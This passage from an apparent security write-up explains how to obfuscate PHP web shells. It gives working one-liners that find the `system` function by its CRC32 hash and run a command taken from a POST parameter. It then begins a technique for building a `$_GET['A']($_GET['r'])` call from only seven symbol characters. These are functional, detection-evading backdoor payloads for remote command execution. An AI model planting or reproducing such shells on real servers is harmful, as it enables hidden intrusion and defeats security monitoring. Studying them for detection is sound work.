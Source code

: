 To isolate the expected routine, we chose to filter on the CRC32 value (collisions may exist, though):
```php
var_dump(array_filter(reset(get_defined_functions()), fn($x) => crc32($x) == $_POST[chr(0x61)]));
```

The `reset` function is used here because `get_defined_functions` returns a 2D array, and we are interested only by `get_defined_functions()["internal"]` (the first element). Each element is then passed to `crc32`, which appends to its return value all the matching items. If no collision exists, it should contain a single element. Sending _a=3377271179_ in the POST'ed body would return `system`:

```
array(1) {
  [683]=>
  string(6) "system"
}
```

The result is a named array, hence `reset` can be used once again to keep only `system` name:

```php
$sys = reset(array_filter(reset(get_defined_functions()), fn($x) => crc32($x) == $_POST[chr(0x61)]));
```

One can now call the routine dynamically, passing the 2nd POST'ed argument:

```php
reset(array_filter(reset(get_defined_functions()), fn($x) => crc32($x) == $_POST[chr(0x61)]))($_POST[chr(0x62)]);
```

_NOTE: this technique can obviously be combined to others in order to hide the $\_POST._

## Technique #4: Only 7 characters

Ever heard about [BrainF*ck](https://esolangs.org/wiki/Brainfuck) ? This esoteric programming language made only of the symbols `><+-.,[]` is more like a joke than a usable language. Alternatives have been created, such as the infamous [JSF*ck](https://jsfuck.com/), made only of six characters (`()+[]!`). A [PHPf*ck](https://splitline.github.io/PHPFuck/) was also created, using only seven symbols `([+.^])`, but the latter is not compatible with PHP 8 (and later). An [alternative](https://b-viguier.github.io/PhpFk/) exists for PHP 8, but it uses [Foreign Function Interface](https://www.php.net/manual/en/book.ffi.php), that is not always installed. Moreover, PHP8 makes it harder to execute code from string, since `eval` cannot be called as a variable function, `assert` does not evaluate any more the passed argument, `preg_replace`'s `/e` flag is deprecated, and `create_function` too.

_I'm also aware that a version only uses 5 characters ([mystiz.hk/posts/2021/2021-08-10-uiuctf-phpfuck/](https://mystiz.hk/posts/2021/2021-08-10-uiuctf-phpfuck/)), but I wanted to do it without letters nor numbers. Still, their technique is really clever._

However, the goal here was not to `eval`uate something arbitrary, but to execute `$_GET['A']($_GET['r])` (you will understand why 'A' and 'r', and not 'a' and 'b'). I therefore had to find a way to call the routine [`filter_input_array`](https://www.php.net/manual/en/function.filter-input-array.php) to extract submitted data:

>
>filter_input_array(int $type, array|int $options = FILTER_DEFAULT, bool $add_empty = true): array|false|null
>
>This function is useful for retrieving many values without repetitively calling filter_input().
>
